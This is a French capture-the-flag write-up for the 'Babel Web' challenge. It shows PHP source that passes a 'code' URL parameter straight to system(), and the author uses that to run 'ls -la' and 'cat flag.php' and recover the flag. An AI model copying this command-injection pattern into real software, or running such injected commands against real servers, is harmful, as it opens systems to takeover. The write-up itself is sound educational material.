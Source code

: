 # Babel Web

<img src="https://media.discordapp.net/attachments/707246075441840169/707263469216333885/unknown.png?width=964&height=1073" width="500" height="600"><img>

Pour ce challenge qui est donc Babel Web on n'a pas vraiment d'indice dans l'énoncé pour savoir où commencer à fouiller, cependant on a deux hints donc un qui nous dit : "Essayez d'exécuter des commandes PHP pour extraire le flag.".
En arrivant sur la page d'accueil on observe un message de maintenance :

<img src ="https://media.discordapp.net/attachments/707246075441840169/707264817471160320/unknown.png?width=2184&height=1133"></img>

En voyant ça je décide donc d'afficher le code source de la page à l'aide d'un `curl -X GET` mais ça me renvoie directement une erreur `curl: (5) Could not resolve proxy: GET`, donc j'utilise une méthode "PUTS". J'envoie donc ma requê
te et j'obtiens ceci :

```html
<html>
	<head>
		<title>Bienvenue à Babel Web!</title>
	</head>	
	<body>
		<h1>Bienvenue à Babel Web!</h1>
		La page est en cours de développement, merci de revenir plus tard.
		<!-- <a href="?source=1">source</a> -->
	</body>
</html>
```
Suite au résultat obtenue j'ajoute donc à mon url `?source=1` afin d'afficher le code source côté serveur donc PHP.
```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
```
En observant le code PHP de la page on comprend très rapidement qu'il suffit de remplacer `?source=1` par `?code=` afin d'exécuter du code directement depuis la page web sur la machine. Je modifie donc le `?source=1` par `?code=ls -la` afin de vérifier mes propos et bingo !
```
total 16
dr-xr-xr-x 1 www-data www-data 4096 Apr 25 09:00 .
drwxr-xr-x 1 root     root     4096 Apr 25 09:00 ..
-r--r--r-- 1 root     root       89 Apr 25 08:59 flag.php
-r-xr-xr-x 1 root     root      439 Apr 25 08:59 index.php
```
Plus qu'à modifier `ls -la` par un : `cat flag.php` pour afficher le code de la page.
Voilà un premier challenge déjà de terminé car on obtient le flag qui est dans la variable `$flag` :
`$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";`
